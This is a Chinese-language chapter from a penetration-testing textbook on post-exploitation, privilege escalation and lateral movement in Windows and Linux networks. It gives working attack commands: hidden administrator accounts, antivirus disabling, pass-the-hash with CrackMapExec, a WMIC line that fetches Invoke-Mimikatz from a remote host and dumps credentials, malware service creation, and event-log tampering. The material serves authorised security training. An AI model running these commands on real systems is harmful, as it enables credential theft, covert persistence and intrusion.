




# 第十一章：目标操作与横向移动

如果利用系统是渗透测试的定义，那么在利用之后的操作才赋予测试真正的意义。这一步骤展示了漏洞的严重性及其可能对组织产生的影响。本章将重点讨论立即的后利用活动，以及横向权限提升的方面——即利用被攻破的系统作为起点跳跃到网络上的其他系统。

到本章结束时，你将学到以下内容：

+   本地权限提升

+   后利用工具

+   在目标网络中的横向移动

+   破坏域信任

+   横向渗透和端口转发

# 在被攻破的本地系统上的活动

通常可以获得系统的访客或用户访问权限。攻击者访问重要信息的能力通常会受到较低权限级别的限制。因此，常见的后利用活动是将访问权限从访客提升到用户，再到管理员，最后提升为 SYSTEM。这个逐步提升访问权限的过程通常被称为**垂直权限提升**。

用户可以通过几种方法获得高级访问凭证，包括以下几种：

+   使用网络嗅探器和/或键盘记录器捕获传输中的用户凭证（`bettercap`、`responder` 或 `dsniff` 设计用于从实时传输或保存的 Wireshark 或`tshark`会话的 PCAP 文件中提取密码）。

+   搜索本地存储的密码。一些用户将密码保存在邮件文件夹中（通常称为`passwords`）。由于密码重用和简单密码构造系统很常见，找到的密码可以在权限提升过程中使用。

+   NirSoft（[www.nirsoft.net](http://www.nirsoft.net)）提供了几款免费的工具，可以通过使用 Meterpreter 上传到被攻破的系统，提取操作系统和缓存密码的应用程序中的密码（如邮件、远程访问软件、FTP 和网页浏览器）。

+   使用 Meterpreter 转储`SAM`和`SYSKEY`文件。

+   当某些应用程序加载时，它们会按照特定的顺序读取**动态链接库**（**DLL**）文件。攻击者可以创建一个与合法 DLL 同名的伪造 DLL，将其放置在特定目录中，使应用程序加载并执行，从而为攻击者提供提升的权限。

+   使用缓冲区溢出或其他手段来提升权限的漏洞利用。

+   执行`getsystem`脚本，该脚本将自动将管理员权限提升至 SYSTEM 级别，命令在 Meterpreter 提示符下执行。

## 对被攻破系统进行快速侦察

一旦系统被入侵，攻击者需要获取关于该系统、其网络环境、用户和用户账户的关键信息。通常，他们会在 shell 提示符下输入一系列命令或脚本来调用这些命令。

如果被攻击的系统基于 Unix 平台，则典型的本地侦察命令包括以下内容：

| **命令** | **描述** |
| --- | --- |
| `/etc/resolv.conf` | 使用 `copy` 命令来访问和查看系统当前的 DNS 设置。由于它是一个具有读取权限的全局文件，访问时不会触发警报。 |
| `/etc/passwd` 和 `/etc/shadow` | 这些是包含用户名和密码哈希的系统文件。具有 root 级访问权限的人可以复制它，并可以使用诸如 John the Ripper 的工具破解密码。 |
| `whoami` 和 `who -a` | 识别本地系统上的用户。 |
| `ifconfig -a`, `iptables -L -n`, 和 `netstat -r` | 提供网络信息。 `ifconfig -a` 提供 IP 地址详细信息，`iptables -L -n` 列出本地防火墙中的所有规则（如果有），`netstat -r` 显示内核维护的路由信息。 |
| `uname -a` | 打印内核版本。 |
| `ps aux` | 显示当前运行的服务、进程 ID 和附加信息。 |
| `dpkg -l yum list &#124; grep installed` 和 `dpkg -l rpm -qa --last &#124; head` | 识别已安装的软件包。 |

表 11.1：可以由渗透测试人员使用的用于侦察的 Linux 命令

这些命令包含了可用选项的简要概述。请参考相应命令的帮助文件，了解如何完整使用它们。

对于 Windows 系统，将输入以下命令：

| **命令** | **描述** |
| --- | --- |
| `whoami /all` | 列出当前用户、SID、用户权限和组。 |
| `ipconfig /all` 和 `ipconfig /displaydns` | 显示有关网络接口、连接协议和本地 DNS 缓存的信息。 |
| `netstat -bnao` 和 `netstat -r` | 列出端口和相应进程 (`-b`)，不进行名称查找 (`-n`)，所有连接 (`-a`) 和父进程 ID (`-o`)。 `-r` 选项显示路由表。需要管理员权限运行。 |
| `net view` 和 `net view /domain` | 查询 NBNS/SMB 来定位当前工作组或域中所有主机。`/domain` 参数给出主机可用的所有域。 |
| `net user /domain` | 列出定义域中的所有用户。 |
| `net user %username% /domain` | 获取当前用户的信息（如果他们是查询域的一部分，则不需要 `/domain`）。包括登录时间、上次更改密码时间、登录脚本和组成员资格。 |
| `net accounts` | 打印本地系统的密码策略。要打印域的密码策略，使用 `net accounts /domain`。 |
| `net localgroup administrators` | 打印管理员本地组的成员。使用 `/domain` 开关可以获取当前域的管理员。 |
| `net group "Domain Controllers" /domain` | 打印当前域的域控制器列表。 |
| `net share` | 显示当前共享的文件夹，这些文件夹可能没有为共享其中的数据提供足够的访问控制，以及它们指向的路径。 |

表 11.2：渗透测试人员可以利用的 Windows 侦察命令

## 查找并获取敏感数据——掠夺目标

**掠夺**（有时称为 **窃取**）一词源自黑客成功攻破系统后，将自己视为海盗，争分夺秒地窃取或损坏尽可能多的数据。这些术语已成为对更加谨慎的行为的参考，即在完成攻击目标后窃取或修改专有数据或财务数据的行为。

攻击者接下来可以集中精力攻击次要目标——系统文件，这些文件将提供支持进一步攻击的信息。次要文件的选择将取决于目标的操作系统。例如，如果被攻破的系统是 Unix，则攻击者还将针对以下目标：

+   系统和配置文件（通常位于 `/etc` 目录中，但根据实现情况，可能位于 `/usr/local/etc` 或其他位置）

+   密码文件（`/etc/password` 和 `/etc/shadow`）

+   `.ssh` 目录中的配置文件和公私密钥

+   `.gnupg` 目录中可能包含的公私密钥环

+   邮件和数据文件

在 Windows 系统中，攻击者将针对以下目标：

+   系统内存，可以用来提取密码、加密密钥等信息

+   系统注册表文件

+   **安全账户管理器**（**SAM**）数据库，其中包含密码的哈希版本，或者可能在 `%SYSTEMROOT%\repair\SAM` 和 `c:\Windows\System32\config\` 中找到的 SAM 数据库的其他版本

+   任何其他用于加密的密码或种子文件

+   邮件和数据文件

不要忘记检查任何包含临时项目的文件夹，如附件。例如，`UserProfile\AppData\Local\Microsoft\Windows\Temporary Internet Files\` 可能包含可能感兴趣的文件、图片和 cookies。

如前所述，系统内存包含了大量信息，对于任何攻击者来说，这些信息都是重要的。因此，它通常是需要获取的优先文件。系统内存可以从多个来源以单个镜像文件下载，如下所示：

+   通过向被攻陷的系统上传工具，并直接复制内存（这些工具包括**Belkasoft RAM Capturer**、**Mandiant Memoryze**和**MoonSols Dumpit**）

+   通过复制 Windows 的休眠文件 `hiberfil.sys`，然后使用取证工具挂载它以离线解密和分析该文件

+   通过复制虚拟机并将 VMEM（虚拟机的分页文件）文件转换为内存文件

如果你向被攻陷的系统上传了一个设计用来捕获内存的程序，这个程序有可能会被杀毒软件识别为恶意软件。大多数杀毒/EDR 软件可以识别内存采集软件的哈希签名和行为，并在其可能泄露敏感内容时发出警报保护物理内存。采集软件会被隔离，目标会收到警告，提示他们遭遇了攻击。

为了避免这种情况，使用 Metasploit Framework 完全在目标的内存中运行可执行文件，使用以下命令：

```
meterpreter> execute -H -m -d calc.exe -f <memory executable + parameters> 
```

上述命令执行 `calc.exe` 作为一个虚拟可执行文件，但实际上将内存采集可执行文件上传，并在其进程空间中运行。

该可执行文件不会出现在进程列表中，例如任务管理器中，且通过数据取证技术进行检测会更困难，因为它不会写入磁盘。此外，它将避免系统的杀毒软件，因为一般杀毒软件不会扫描内存空间以寻找恶意软件。

一旦物理内存被下载，可以使用 Volatility 框架进行分析。Volatility 是一组 Python 脚本，旨在对内存进行取证分析。如果操作系统受支持，Volatility 会扫描内存文件并提取以下内容：

+   足以*关联*镜像与其源系统的镜像信息和系统数据。

+   正在运行的进程、加载的 DLL、线程、套接字、连接和模块。

+   打开的网络套接字和连接，以及最近打开的网络连接。

+   内存地址，包括物理和虚拟内存映射。

+   LM/NTLM 哈希和 LSA 密钥。**LanMan**（**LM**）密码哈希是微软最初为保护密码而设计的方案。多年来，破解它们变得非常简单，可以将哈希值转换回实际密码。**NT LanMan**（**NTLM**）哈希是更新的版本，更能抵抗攻击。然而，它们通常与 NTLM 版本一起存储，以保证向后兼容性。**本地安全机构**（**LSA**）存储着本地密码的秘密：远程访问（有线或无线）、VPN、自动登录密码等。系统中存储的任何密码都是脆弱的，尤其是当用户重复使用密码时。

+   存储在内存中的特定正则表达式或字符串。

### 创建额外的账户

以下命令具有高度侵入性，通常在事件响应过程中会被系统所有者检测到。然而，攻击者经常会植入这些命令，以便将注意力转移到更持久的访问机制上：

| **命令** | **描述** |
| --- | --- |
| `net user attacker password /add``net user testuser testpassword /ADD /DOMAIN` | 创建一个名为`attacker`的新本地帐户，并将密码设置为`password`。如果你在域控制器上运行该命令，它还将相同的用户添加到域中。 |
| `net localgroup administrators attacker /add` | 将名为`attacker`的新用户添加到本地管理员组。在某些情况下，命令将是`net localgroup administrators /add attacker`。 |
| `net user username /active:yes /domain` | 将一个非活动或禁用的帐户更改为活动帐户。在小型组织中，这会引起注意。密码管理不善的大型企业可能有 30%的密码被标记为非活动，因此这可能是获取帐户的一种有效方式。 |
| `net share name$=C:\ /grant:attacker,FULL /unlimited` | 将`C:`（或指定的其他驱动器）作为 Windows 共享，并授予用户（攻击者）完全访问或修改该驱动器上所有内容的权限。 |

表 11.3：可用于在本地和域服务器上创建用户的 Windows 命令

如果你创建一个新的用户帐户，当有人登录到受损系统的欢迎屏幕时，会注意到这一点。为了使该帐户不可见，你需要通过命令行修改注册表，使用以下`REG`命令：

```
REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\WinLogon\SpecialAccounts\UserList" /V account_name /T REG_DWORD /D 0 
```

这将修改指定的注册表键，以隐藏用户（`/V`）的帐户。再次强调，具体操作可能会受到目标操作系统版本的特殊语法要求影响，因此首先确定 Windows 版本，然后在受控测试环境中验证，再对目标实施。

## 后期利用工具

后期利用是指利用现有的访问权限进行权限提升、利用和数据外流的技巧。在接下来的章节中，我们将探索三种不同的后期利用工具：Metasploit 的 Meterpreter、PowerShell Empire 和 CrackMapExec。

### Metasploit 框架 - Meterpreter

Metasploit 是为了支持利用和后期利用活动而开发的。当前版本包含大约 2,180 个漏洞利用、1,155 个辅助模块和 399 个后期利用模块。大约有 229 个 Windows 模块简化了后期利用活动。我们将在这里回顾一些最重要的模块。

在以下示例中，我们成功地利用了运行在 Windows 2016 上的一个易受攻击的 Microsoft Exchange 服务器（这是一种经典攻击，经常用于验证 Meterpreter 的更复杂方面）。初始步骤是对网络和受损系统进行即时侦察。

初始的 Meterpreter shell 是脆弱的，随着时间推移容易失败。因此，一旦系统被攻击，我们需要迁移 shell 并将其绑定到一个更稳定的进程上。这也使得检测漏洞变得更加困难。在 Meterpreter 提示符下，输入`ps`以获取正在运行的进程列表，如*图 11.1*所示：


图 11.1：使用 Meterpreter 列出所有正在运行的进程

`ps`命令还会返回每个进程的完整路径名。这一点在*图 11.1*中被省略了。`ps`列表标识出`c:\windows\explorer.exe`正在运行。在这个特定案例中，它被标识为进程 ID 为`1868`，如*图 11.2*所示。由于这是一个相对稳定的应用程序，我们将把 shell 迁移到这个进程上：


图 11.2：迁移到不同的特权进程

要确定的第一个参数是：我们是否处于虚拟机中？在被攻击的系统和攻击者之间打开 Meterpreter 会话后，执行`run post exploit module checkvm`命令，如*图 11.3*所示。返回的数据表明`这是一个 VirtualBox 虚拟机`：


图 11.3：使用后期利用模块收集虚拟机信息

一些最重要的后期利用模块可以通过 Meterpreter 获得，这些模块在*表 11.4*中进行了描述：

| **命令** | **描述** |
| --- | --- |
| `run post/windows/manage/inject_host` | 允许攻击者向 Windows 的`HOSTS`文件中添加条目。这可以将流量重定向到一个不同的网站（假冒网站），以下载额外的工具，或者确保杀毒软件无法连接到互联网或本地服务器以获取签名更新。 |
| `run post/windows/gather/cachedump` | 导出所有缓存信息，可进一步用于数据外泄。 |
| `run use post/windows/manage/killav` | 禁用大多数在受攻击系统上运行的杀毒服务。此脚本常常过时，成功执行需手动验证。 |
| `run winenum` | 执行命令行和 WMIC 的系统特征分析。它导出注册表中的重要键和 LM 哈希。 |
| `run scraper` | 收集其他脚本未收集的全面信息，如整个 Windows 注册表。 |
| `run upload` 和 `run download` | 允许攻击者向目标系统上传和下载文件。 |

表 11.4：Meterpreter 后期利用模块

让我们来看一个例子。在这里，我们将在被攻击的系统上运行`winenum`，该工具会导出所有重要的注册表键和 LM 哈希，用于横向移动和权限提升。这可以通过在 Meterpreter 命令行中运行`run winenum`来实现。你应该看到确认信息`All tokens have been processed`，如*图 11.4*所示：



图 11.4：运行 Meterpreter Windows 枚举

所有单独的发现将保存在 `/root/.msf4/logs/scripts/winenum` 文件夹中。攻击者可以查看该文件夹中的详细内容，如 *图 11.5* 所示：


图 11.5：Meterpreter 脚本输出的 Windows 枚举结果

攻击者可以做的另一件事是使用 Meterpreter 冒充会话令牌，并利用隐身模块。最初，创建了一个独立模块，通过会话令牌来冒充用户。这些令牌类似于 web 会话 cookie，能够在无需每次询问用户名和密码的情况下识别用户。同样的情况也适用于计算机和网络。

攻击者可以通过在 Meterpreter shell 中运行 `use incognito` 来以隐身模式运行 Meterpreter，如 *图 11.6* 所示：


图 11.6：列出所有可用的令牌

例如，如果 Meterpreter shell 被本地用户攻破，通过将用户令牌冒充为系统用户 `NT Authority`，普通用户也能享受系统用户的权限。

要执行冒充，攻击者可以从 Meterpreter shell 中运行 `impersonate_token`，如 *图 11.7* 所示：


图 11.7：使用 Meterpreter 利用令牌冒充

### PowerShell Empire 项目

在上一章中，我们了解了 PowerShell Empire 框架以及如何创建启动器来发起攻击。攻击者可以将启动器的 PowerShell 输出保存到 `.ps1` 文件中。在本节中，我们将继续在目标上运行启动器。

为了让系统成为他们的代理，攻击者可以利用现有的 Meterpreter 会话来运行 PowerShell，并结合 Empire 工具生成的有效载荷，如 *图 11.8* 所示：


图 11.8：从被攻破的机器运行 PowerShell

一旦有效载荷在远程系统上运行，我们的 Empire 工具界面必须显示以下内容：


图 11.9：PowerShell 脚本在目标机器上成功执行并向 Empire 汇报

要与代理交互，你必须输入 `agents` 列出所有连接到你的代理，以及输入 `interact "代理名称"`。你可以通过我们的 HTTP 监听器向代理运行 `system level` 命令，如 *图 11.10* 所示：


图 11.10：使用 PowerShell Empire 在远程服务器上运行 shell 命令

### CrackMapExec

**CrackMapExec** (**CME**) 是另一种后期利用工具，帮助自动化评估大型 Active Directory 网络的安全性。CME 的设计考虑到隐匿性，遵循 *利用现有资源（living off the land）* 的概念：滥用内置的 Active Directory 功能/协议来实现其功能，从而能够避开大多数端点保护/IDS/IPS 解决方案。

CME 重度使用 Impacket 库和 PowerSploit 来处理网络协议并执行各种后渗透技术。CME 默认安装在 Kali Linux 中；你可以通过运行 `crackmapexec service -L` 来列出该工具中的所有模块，如 *图 11.11* 所示：


图 11.11：CrackMapExec SMB 模块

该工具适用于红队或渗透测试期间设定的目标。CME 可以简要地分为三个部分：协议、模块和数据库：

**协议**：CME 支持 SMB、MSSQL、LDAP、WINRM 和 SSH。这些是大多数组织中常用的协议。

**模块**：*表 11.5* 提供了使用 CME 时非常重要且实用的 SMB 模块列表。然而，这些模块并不限于此列表；测试人员还可以使用第三方插件或编写自己的 PowerShell 脚本，并通过 CME 调用它们：

| **模块名称** | **描述** |
| --- | --- |
| `empire_exec` | 该功能将启动 Empire RESTful API，并在执行目标操作之前为特定的监听器生成启动器。 |
| `Shellcode_inject` | 利用 PowerSploit 的 `Invoke-Shellcode.ps1` 脚本将 shellcode 注入内存，并下载指定的原始 shellcode。 |
| `mimikittenz` | 如果 `mimikatz` 被阻止，可以使用 `mimikittenz`。该模块允许测试人员从内存中提取凭证，而无需下载另一个有效载荷。 |
| `com_exec` | 使用 COM 脚本小程序绕过应用程序白名单。 |
| `Mimikatz_enum_chrome` | 利用 PowerSploit 的 `Invoke-Mimikatz.ps1` 脚本解密 Google Chrome 中保存的密码。 |
| `tokens` | 利用 PowerSploit 的 `Invoke-TokenManipulation` 脚本提取令牌。 |
| `mimikatz` | 利用 PowerSploit 的 `Invoke-Mimikatz.ps1` 脚本将密码转储为明文。 |
| `Pe_inject` | 该功能利用 PowerSploit 的 `Invoke-ReflectivePEInjection.ps1` 脚本，通过下载指定的 DLL/EXE 将脚本注入内存。 |
| `lsassy` | 一个非常有趣的有效载荷，允许你转储 `lsass.exe` 并远程发送结果。 |
| `wireless` | 下载目标配置接口的所有无线密钥（明文）。 |
| `rdp` | 允许测试人员启用/禁用远程桌面协议。 |

表 11.5：CrackMapExec 模块

**数据库**：`cmedb` 是一个数据库，用于存储主机及其凭证详细信息，这些信息是在利用攻击后收集的。*图 11.12* 显示了一些详细信息的示例：


图 11.12：cmedb 存储被利用的主机和凭证

例如，我们将使用从被攻陷系统中获取的 hashdump 来运行 `ipconfig` 命令，如下代码所示：

```
crackmapexec smb <target IP> -u Username -d Domain -H <Hash value> -x ipconfig 
```

*图 11.13* 显示了通过成功传递哈希并在目标上运行 `ipconfig` 命令来验证凭证的有效性：


图 11.13：使用 crackmapexec 在目标上运行命令

# 水平升级和横向渗透

在水平升级中，攻击者保留现有的凭据，但利用这些凭据在不同用户的账户上进行操作。例如，系统 A 上的用户攻击系统 B 上的用户，试图攻破其账户。

攻击者通常利用被攻破的系统进行横向渗透。

这用于提取常见用户名的哈希值，如 Itsupport 和 LocalAdministrators，或者已知的默认用户管理员，从而在所有连接到同一域的可用系统上横向提升权限。例如，在这里，我们将使用 CME 在一个 IP 范围内运行相同的密码哈希，以便在黑客控制的共享驱动器上转储所有密码：

```
crackmapexec smb 10.10.10.1/24 -u <Username> -d local -H <Hashvalue> --sam 
```

*图 11.14* 显示了在整个 IP 范围内运行 SAM 转储，以提取 SAM 密码哈希，而无需植入任何可执行文件或后门：


图 11.14：在网络 IP 范围内喷洒密码哈希

在成熟的组织中，可能会遇到端点保护或杀毒软件阻止该载荷的情况，但如果用户是本地管理员，这并不会阻止哈希转储。

大多数情况下，我们已经成功使用相同的本地管理员密码哈希登录到域的 Microsoft **SCCM**（**系统中心配置管理器**）系统。该系统用于管理所有由组织管理的系统上的软件安装。然后，它执行命令与控制操作。

通过运行以下命令，您可以在目标上运行 `mimikatz`，并使用捕获的用户名和密码哈希：

```
crackmapexec smb <target> -u <username> -d <domain or local> -H <Hash value> -M mimikatz 
```

*图 11.15* 显示了在我们受害者系统上运行 `mimikatz` 的输出，提取明文密码，而无需上传任何可执行文件或植入后门：


图 11.15：使用 crackmapexec 在目标上运行 Mimikatz

CME 具有出色的支持，使得你可以通过模块直接传递哈希值并调用 `mimikatz`，或者调用 Empire PowerShell 来执行数据外泄。

## 攻破域信任关系和共享

本节将讨论可以被操控的域层级结构，以便我们能够利用 Active Directory 上实施的功能。

我们将利用 Empire 工具收集所有域级信息和系统之间的信任关系。为了了解被攻破系统的当前状况，攻击者现在可以使用 Empire 工具执行不同类型的查询。*表 11.6* 提供了在 RTE/渗透测试活动中通常使用的最有效模块列表：

| **模块名称** | **描述** |
| --- | --- |
| `situational_awareness/network/sharefinder` | 此模块提供给定网络上网络共享文件的列表。 |
| `situational_awareness/network/arpscan` | 测试人员可以对可达的 IP v4 范围执行`arpscan`。 |
| `situational_awareness/network/reverse_dns` | 此模块提供反向 IP 查找并查找 DNS 主机名。 |
| `situational_awareness/network/portscan` | 类似于`nmap`，你可以使用此模块执行主机扫描，但它并不隐蔽。 |
| `situational_awareness/network/netview` | 此模块帮助攻击者枚举共享、已登录用户和给定域上的会话。 |
| `situational_awareness/network/userhunter``situational_awareness/network/stealth_userhunter` | 攻击者使用`userhunter`来识别他们可以使用已获得的凭据登录多少个系统。由于这是针对用户的扫描，因此它的集合会记录到给定的网络中。 |
| `situational_awareness/network/powerview/get_forest` | 成功执行此模块将返回林的详细信息。 |
| `situational_awareness/network/get_exploitable_system` | 识别网络中的易受攻击系统，提供额外的入口点。 |
| `situational_awareness/network/powerview/find_localadmin_access get_domain_controller get_forest_domain get_fileserver find_gpo_computer_admin` | 所有这些模块用于收集更多关于域信任、对象和文件服务器的详细信息。 |

表 11.6：PowerShell Empire 模块用于情境感知

在这个示例中，我们将使用`situational_awareness/network/powerview/get_forest`模块来提取已连接域的林详细信息。以下命令在 PowerShell Empire 终端中运行。

模块成功运行后，应该会显示*图 11.16*中的详细信息：



图 11.16：运行 PowerShell Empire 模块以获取林的详细信息

在另一个示例中，攻击者总是会找到包含`ADMIN$`和`C$`的系统，以便植入后门或收集信息。然后它可以使用这些凭据远程运行命令。

这可以通过使用`situational_awareness/network/powerview/share_finder`模块来实现，如*图 11.17*所示：


图 11.17：识别 Active Directory 域中的共享驱动器

由于大多数渗透测试人员不会检查共享驱动器中的内容，有时他们会对管理员犯的错误感到惊讶，例如允许所有域用户访问 IT 共享驱动器，或者用户的家目录无人看管，攻击者可以在其中窃取大量密码，而不必利用任何单一漏洞。在多次红队活动中，我们注意到员工将密码（包括一些银行信息）以明文形式存储在共享驱动器中。

## PsExec、WMIC 及其他工具

PsExec 是微软替代 Telnet 的工具，可以从[`technet.microsoft.com/en-us/sysinternals/bb897553.aspx`](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)下载。

通常，攻击者使用 PsExec 模块通过有效凭证获取访问权限，并与网络中的远程系统进行通信：


图 11.18：使用 PSExec 和有效凭证获取远程 shell 访问

最初，该可执行文件是为系统内部工具设计的，用于排除框架中的问题。现在可以通过运行 PsExec Metasploit 模块并执行远程选项来利用它。这将打开一个 shell；测试人员可以输入他们的用户名和密码，或者直接传递哈希值，因此无需破解密码哈希即可访问系统。如果网络中的单个系统被攻破，那么所有的横向移动操作都可以进行，而无需密码。

*图 11.19* 显示了带有有效凭证的 PsExec Metasploit 模块：


图 11.19：使用有效凭证的 Metasploit 模块选项以利用 PsExec

### WMIC

在较新的系统中，攻击者和渗透测试人员利用内置脚本语言，如 **Windows Management Instrumentation Command Line** (**WMIC**)，这是一种命令行和脚本接口，用于简化访问 Windows 管理工具。如果被攻破的系统支持 WMIC，可以使用多个命令来收集信息。*表 11.7* 提供了一些命令的简要描述：

| **命令** | **描述** |
| --- | --- |
| `wmic nicconfig get ipaddress,macaddress` | 获取 IP 地址和 MAC 地址 |
| `wmic computersystem get username` | 验证被攻破的账户 |
| `wmic netlogin get name, lastlogon` | 确定最后使用该系统的人和最后登录时间 |
| `wmic desktop get screensaversecure, screensavertimeout` | 确定屏幕保护程序是否受密码保护以及超时时间 |
| `wmic logon get authenticationpackage` | 确定支持哪些登录方法 |
| `wmic process get caption, executablepath,commandline` | 识别系统进程 |
| `wmic process where name="process_name" call terminate` | 终止特定进程 |
| `wmic os get name, servicepackmajorversion` | 确定系统的操作系统 |
| `wmic product get name, version` | 识别已安装的软件 |
| `wmic product where name="name' call uninstall /nointeractive` | 卸载或移除已定义的软件包 |
| `wmic share get /ALL` | 识别用户可以访问的共享 |
| `wmic /node:"machinename" path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"` | 远程启动 RDP |
| `wmicnteventlog get path, filename,writeable` | 查找所有系统事件日志，并确保它们可以被修改（这些在掩盖痕迹时使用） |

表 11.7：测试人员可以利用的 WMIC 命令以执行水平权限提升

PowerShell 是一种基于 .NET Framework 构建的脚本语言，从控制台运行，给予用户对 Windows 文件系统和注册表等对象的访问权限。它在 Windows 7 操作系统及更高版本中默认安装。PowerShell 通过允许在本地和远程目标上进行 shell 集成和互操作性，扩展了 WMIC 提供的脚本支持和自动化功能。

PowerShell 为测试人员提供了在被攻击系统上访问 shell 和脚本语言的权限。由于它是 Windows 操作系统的原生工具，使用其命令不会触发防病毒软件。当脚本在远程系统上运行时，PowerShell 不会写入磁盘，因此可以绕过任何防病毒软件和白名单控制（假设用户已允许使用 PowerShell）。

PowerShell 支持多种内置函数，称为 cmdlet。PowerShell 的一个优势是，cmdlet 与常见的 Unix 命令有别名，因此输入 `ls` 命令将返回典型的目录列表，如 *图 11.20* 所示：


图 11.20：在 Windows PowerShell 中运行 Linux 命令

PowerShell 是一种功能强大的语言，能够支持非常复杂的操作；建议用户花时间熟悉其使用。以下是在受感染后可以立即使用的一些简单命令，详见 *表 11.8：*

| **命令** | **描述** |
| --- | --- |
| `Get-Host &#124; Select Version` | 识别受害者系统正在使用的 PowerShell 版本。某些 cmdlet 会在不同版本中被添加或调用。 |
| `Get-Hotfix` | 识别已安装的安全补丁和系统热修复。 |
| `Get-Acl` | 识别组名和用户名。 |
| `Get-Process, Get-Service` | 列出当前的进程和服务。 |
| `gwmi win32_useraccount` | 调用 WMI 列出用户账户。 |
| `Gwmi_win32_group` | 调用 WMI 列出 SID、名称和域组。 |

表 11.8：可用于执行本地系统枚举的内置 PowerShell 命令

渗透测试人员可以使用 Windows 原生命令、DLL、.NET 函数、WMI 调用和 PowerShell cmdlet，将它们组合在一起创建 `.ps1` 扩展名的 PowerShell 脚本。一个使用 WMIC 和凭据进行横向移动的例子是，攻击者在远程机器上运行一个进程，从内存中提取明文密码。要使用的命令如下：

```
wmic /USER:"domain\user" /PASSWORD:"Userpassword" /NODE:10.10.10.4 process call create "powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.12/Invoke-Mimikatz.ps1'); Invoke-MimiKatz -DumpCreds | Out-File C:\\users\\public\\creds.txt 
```

侦察工作还应扩展到本地网络。由于你是在盲目操作，你需要创建一个与受感染主机可以通信的实时系统和子网的映射。首先，在 shell 提示符下输入 `IFCONFIG`（基于 Unix 的系统）或 `IPCONFIG /ALL`（Windows 系统）。这将允许攻击者确定以下信息：

+   是否启用了 DHCP 地址分配。

+   本地 IP 地址，这也会识别至少一个活动子网。

+   网关 IP 地址和 DNS 服务器地址。系统管理员通常在整个网络中遵循编号约定，如果攻击者知道一个地址，例如网关服务器`10.10.10.1`，他们会 ping 其他地址，如`10.10.10.100`，`10.10.10.5`等，以查找额外的子网。

+   用于利用 Active Directory 账户的域名。

如果攻击系统和目标系统都在使用 Windows，可以使用`net view`命令枚举网络上的其他 Windows 系统。攻击者使用`netstat -rn`命令来查看路由表，其中可能包含对感兴趣的网络或系统的静态路由。

可以使用`nmap`扫描本地网络，该工具会嗅探 ARP 广播。此外，Kali 还有几个工具可用于 SNMP 端点分析，包括`nmap`、`onesixtyone`和`snmpcheck`。

部署数据包嗅探器以映射流量将帮助您识别主机名、活动子网和域名。如果未启用 DHCP 寻址，还将允许攻击者识别未使用的静态 IP 地址。Kali 预装了 Wireshark（基于 GUI 的数据包嗅探器），但您也可以从命令行或后渗透脚本中使用`tshark`，如图 11.21 所示：



图 11.21：运行 tshark 来嗅探网络并识别主机

### Windows 凭证编辑器

**Windows Credentials Editor** (**WCE**)可以从[`www.ampliasecurity.com/research/windows-credentials-editor/`](https://www.ampliasecurity.com/research/windows-credentials-editor/)下载。

使用 Meterpreter shell，您可以将`wce.exe`上传到已被入侵的系统，如图 11.22 所示。一旦文件上传到系统，运行 Meterpreter 会话中的`shell`命令，这将授予对被入侵系统的终端访问。要验证 WCE 是否成功，请运行`wce.exe -w`以列出所有用户的登录会话及明文密码：


图 11.22：在旧版 Windows 设备上使用 WCE 提取明文密码

稍后，攻击者可以利用这些凭据横向移动到网络中，从而在多个系统上使用相同的凭据。此工具仅适用于 Windows XP、2003、7 和 2008 等旧系统。

渗透测试人员可以大量使用 PowerShell 的自动化 Empire 工具来执行特定于 Active Directory 和其他域信任和提权攻击，我们将在*第十二章*，*特权提升*中探讨这些攻击。

## 使用服务进行横向移动

如果渗透测试人员遇到没有 PowerShell 可调用的系统怎么办？在这种情况下，**服务控制**（**SCs**）将非常有用，用于在网络中执行横向移动，涵盖所有您访问或具有匿名访问共享文件夹的系统。

以下命令可以直接从命令提示符或通过 Meterpreter shell 运行：

+   `net use \\advanced\c$/user:advanced\username password`

+   `dir \\advanced\c$`

+   将使用 Shellter 或 Veil 创建的后门复制到共享文件夹中

+   创建一个名为`backtome`的服务

+   `Sc \\remotehost create backtome binpath="c:\xx\malware.exe"`

+   `Sc remotehost start backtome`

## 转向和端口转发

我们在*第九章*《绕过安全控制》中讨论了简单的端口转发方法，通过绕过内容过滤和 NAC。在本节中，我们将使用 Metasploit 的 Meterpreter 来进行转向和端口转发目标。

在 Meterpreter 上，在目标系统上的活动会话期间，攻击者可以使用相同的系统扫描内部网络。图 11.23 显示了一个具有两个网络适配器`192.168.0.119`和`192.168.52.129`的系统：


